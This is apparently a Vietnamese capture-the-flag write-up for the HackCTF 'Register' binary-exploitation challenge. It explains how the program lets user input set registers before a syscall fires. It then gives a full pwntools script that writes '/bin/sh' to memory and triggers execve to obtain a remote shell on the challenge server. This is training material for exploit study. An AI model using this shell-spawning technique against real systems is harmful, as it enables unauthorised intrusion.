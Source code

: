 # Register
### Cre: Pyo Tutor

Hàm main sẽ setup Alarm(5) trước thi thực hiện function chính là Build() để thực thi.
![Đây là hàm Main](https://github.com/zirami/HackCTF/blob/main/register/image/main_func.png)
Tại hàm build(), signal sẽ được kích hoạt và gọi hàm handler để thực thi các tham số đã truyền trong obj.
Sau đó thực hiện 2 vòng while và Do while, nhận các tham số cho register.
![Đây là hàm build](https://github.com/zirami/HackCTF/blob/main/register/image/build%20func.png)
![Đây là hàm handler](https://github.com/zirami/HackCTF/blob/main/register/image/handler_func.png)

Trong hàm Do While có hàm validate_syscall_obj() để check điều kiện, với tham số đầu vào rơi vào RAX register.
![Đây là hàm Validate_syscal_obj](https://github.com/zirami/HackCTF/blob/main/register/image/validate_syscall_obj_func.png)

Chương trình sử dụng signal(14, handler); kèm theo alarm(5-seconds).
Sau đó, nhận các input cho các register của chương trình.
Vậy chỉ cần truyền các tham số hợp lí, thì có thể gọi shell.

# Solution

Có 2 công việc cần làm để gọi shell
* Tạo 1 nơi chứa chuỗi `/bin/sh`
* Truyền tham số cho RDI = addr("/bin/sh"), RAX = 59,... Đợi 5s.

## Getshell



## File Exploit
```py
from pwn import * 
# s = process("./register")
s = remote('ctf.j0n9hyun.xyz', 3026)
# raw_input("debug")

binsh = "/bin/sh\x00"
#BSS_ADDR = 0x601100 = 6295808 
s.sendlineafter("RAX: ","0")
s.sendlineafter("RDI: ","0")
s.sendlineafter("RSI: ","6295808")
s.sendlineafter("RDX: ","8")
s.sendlineafter("RCX: ","0")
s.sendlineafter("R8: ","0")
s.sendlineafter("R9: ","0")

s.send(binsh)


s.sendlineafter("RAX: ","59")
s.sendlineafter("RDI: ","6295808")
s.sendlineafter("RSI: ","0")
s.sendlineafter("RDX: ","0")
s.sendlineafter("RCX: ","0")
s.sendlineafter("R8: ","0")
s.sendlineafter("R9: ","0")

sleep(4)

s.interactive()
```